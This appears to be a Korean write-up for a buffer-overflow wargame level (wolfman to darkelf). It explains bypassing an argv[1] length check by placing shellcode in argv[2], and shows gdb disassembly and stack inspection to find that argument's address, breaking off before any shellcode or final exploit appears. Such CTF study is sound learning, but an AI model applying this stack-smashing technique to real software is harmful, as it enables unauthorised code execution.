 ### Solution

이 문제는 argv[1]의 길이 체크까지 추가되었다.
하지만 argc 즉 argv의 개수는 고정되어 있지 않으므로 argv[2]에 쉘코드를 넣고 점프하면 된다.

이전 문제들과 마찬가지로 gdb를 통해 쉘코드의 주소를 확인해보자.

``` bash2
[wolfman@localhost wolfman]$ cp darkelf darkel2
[wolfman@localhost wolfman]$ gdb -q darkel2
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x8048500 <main>:	push   %ebp
0x8048501 <main+1>:	mov    %ebp,%esp
0x8048503 <main+3>:	sub    %esp,44
0x8048506 <main+6>:	cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:	jg     0x8048523 <main+35>
0x804850c <main+12>:	push   0x8048670
0x8048511 <main+17>:	call   0x8048410 <printf>
0x8048516 <main+22>:	add    %esp,4
0x8048519 <main+25>:	push   0
0x804851b <main+27>:	call   0x8048420 <exit>
0x8048520 <main+32>:	add    %esp,4
0x8048523 <main+35>:	nop    
0x8048524 <main+36>:	mov    DWORD PTR [%ebp-44],0x0
0x804852b <main+43>:	nop    
0x804852c <main+44>:	lea    %esi,[%esi*1]
0x8048530 <main+48>:	mov    %eax,DWORD PTR [%ebp-44]
0x8048533 <main+51>:	lea    %edx,[%eax*4]
0x804853a <main+58>:	mov    %eax,%ds:0x80497a4
0x804853f <main+63>:	cmp    DWORD PTR [%eax+%edx],0
0x8048543 <main+67>:	jne    0x8048547 <main+71>
0x8048545 <main+69>:	jmp    0x8048587 <main+135>
0x8048547 <main+71>:	mov    %eax,DWORD PTR [%ebp-44]
0x804854a <main+74>:	lea    %edx,[%eax*4]
0x8048551 <main+81>:	mov    %eax,%ds:0x80497a4
0x8048556 <main+86>:	mov    %edx,DWORD PTR [%eax+%edx]
0x8048559 <main+89>:	push   %edx
0x804855a <main+90>:	call   0x80483f0 <strlen>
0x804855f <main+95>:	add    %esp,4
0x8048562 <main+98>:	mov    %eax,%eax
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb) b *main+6
Breakpoint 1 at 0x8048506
(gdb) r `python -c 'print "\xbf"*48'` `python -c 'print "A"*425'`
Starting program: /home/wolfman/darkel2 `python -c 'print "\xbf"*48'` `python -c 'print "A"*425'`

Breakpoint 1, 0x8048506 in main ()
(gdb) x/wx $ebp+0xc
0xbffff924:	0xbffff964
(gdb) x/s 0xbffff964+8
0xbffff96c:	 "??
(gdb) x/wx 0xbffff964
0xbffff964:	0xbffffa63
(gdb)
0xbffff968:	0xbffffa79
(gdb)
0xbffff96c:	0xbffffaaa
(gdb) x/s 0xbffffaaa
0xbffffaaa:	 'A' <repeats 200 times>...
```
